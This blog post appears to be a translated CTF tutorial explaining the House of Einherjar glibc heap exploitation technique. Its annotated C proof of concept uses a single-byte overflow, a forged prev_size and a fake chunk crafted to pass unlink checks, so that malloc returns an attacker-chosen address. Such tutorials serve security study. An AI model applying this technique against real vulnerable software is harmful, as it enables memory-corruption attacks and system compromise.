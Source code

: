 ```yaml
---
title: Heap Exploitation系列翻译-16 House of Einherjar
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```

# House of Einherjar

This house is not part of "The Malloc Maleficarum". This heap exploitation technique was given by [Hiroki Matsukuma](https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606) in 2016. This attack also revolves around making 'malloc' return a nearly arbitrary pointer. Unlike other attacks, this requires just a single byte of overflow. There exists much more software vulnerable to a single byte of overflow mainly due to the famous ["off by one"](https://en.wikipedia.org/wiki/Off-by-one_error) error. It overwrites into the 'size' of the next chunk in memory and clears the `PREV_IN_USE` flag to 0. Also, it overwrites into `prev_size` (already in the previous chunk's data region) a fake size. When the next chunk is freed, it finds the previous chunk to be free and tries to consolidate by going back 'fake size' in memory. This fake size is so calculated so that the consolidated chunk ends up at a fake chunk, which will be returned by subsequent malloc.

Consider this sample code (download the complete version [here](/files/heap-exploition/files/house_of_einherjar.c)):

```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[32];               // padding
};

struct chunk_structure *chunk1, fake_chunk;     // fake chunk is at 0x7ffee6b64e90
size_t allotedSize;
unsigned long long *ptr1, *ptr2;
char *ptr;
void *victim;

// Allocate any chunk
// The attacker will overflow 1 byte through this chunk into the next one
ptr1 = malloc(40);                              // at 0x1dbb010

// Allocate another chunk
ptr2 = malloc(0xf8);                            // at 0x1dbb040

chunk1 = (struct chunk_structure *)(ptr1 - 2);
allotedSize = chunk1->size & ~(0x1 | 0x2 | 0x4);
allotedSize -= sizeof(size_t);      // Heap meta data for 'prev_size' of chunk1

// Attacker initiates a heap overflow
// Off by one overflow of ptr1, overflows into ptr2's 'size'
ptr = (char *)ptr1;
ptr[allotedSize] = 0;      // Zeroes out the PREV_IN_USE bit

// Fake chunk
fake_chunk.size = 0x100;   // enough size to service the malloc request
// These two will ensure that unlink security checks pass
// i.e. P->fd->bk == P and P->bk->fd == P
fake_chunk.fd = &fake_chunk;
fake_chunk.bk = &fake_chunk;

// Overwrite ptr2's prev_size so that ptr2's chunk - prev_size points to our fake chunk
// This falls within the bounds of ptr1's chunk - no need to overflow
*(size_t *)&ptr[allotedSize-sizeof(size_t)] =
                                (size_t)&ptr[allotedSize - sizeof(size_t)]  // ptr2's chunk
                                - (size_t)&fake_chunk;

// Free the second chunk. It will detect the previous chunk in memory as free and try
// to merge with it. Now, top chunk will point to fake_chunk
free(ptr2);

victim = malloc(40);                  // Returns address 0x7ffee6b64ea0 !!
```

Note the following:

1. The second chunk's size was given as `0xf8`. This simply ensured that the actual chunk's size has the least significant byte as `0` (ignoring the flag bits). Hence, it was a simple matter to set the previous in use bit to `0` without changing the size of this chunk.
2. The `allotedSize` was further decreased by `sizeof(size_t)`. `allotedSize` is equal to the size of the complete chunk. However, the size allowed for data is `sizeof(size_t)` less, or the equivalent of the `size` parameter in the heap. This is because `size` and `prev_size` of the current chunk cannot be used, but the `prev_size` of the next chunk can be used.
3. Fake chunk's forward and backward pointers were adjusted to pass the security check in `unlink`.

